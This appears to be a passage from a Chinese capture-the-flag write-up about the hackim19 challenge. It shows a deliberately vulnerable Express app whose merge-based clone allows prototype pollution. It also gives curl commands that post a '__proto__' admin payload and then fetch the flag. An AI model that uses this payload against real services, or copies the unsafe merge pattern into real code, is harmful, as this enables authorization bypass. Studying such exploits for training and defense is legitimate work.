 ```javascript

function clone(a) {
  return merge({}, a);
}

// Constants
const PORT = 8080;
const HOST = '127.0.0.1';
const admin = {};

// App
const app = express();
app.use(bodyParser.json());
app.use(cookieParser());

app.use('/', express.static(path.join(__dirname, 'views')));
app.post('/signup', (req, res) => {
  var body = JSON.parse(JSON.stringify(req.body));
  var copyBody = clone(body);
  if (copyBody.name) {
    res.cookie('name', copyBody.name).json({
      done: 'cookie set',
    });
  } else {
    res.json({
      error: 'cookie not set',
    });
  }
});
app.get('/getFlag', (req, res) => {
  var admin = JSON.parse(JSON.stringify(req.cookies));
  if (admin.admin == 1) {
    res.send('hackim19{}');
  } else {
    res.send('You are not authorized');
  }
});
app.listen(PORT, HOST);
console.log(`Running on http://${HOST}:${PORT}`);
```

这段代码的漏洞就在于 merge 函数上，我们可以这样攻击：

```bash
curl -vv --header 'Content-type: application/json' -d '{"__proto__": {"admin": 1}}' 'http://127.0.0.1:4000/signup';

curl -vv 'http://127.0.0.1/getFlag'
```

首先请求 `/signup` 接口，在 NodeJS 服务中，我们调用了有漏洞的 `merge` 方法，并通过 `__proto__` 为 `Object.prototype`（因为 `{}.__proto__ === Object.prototype`）添加上一个新的属性 `admin`，且值为 1。
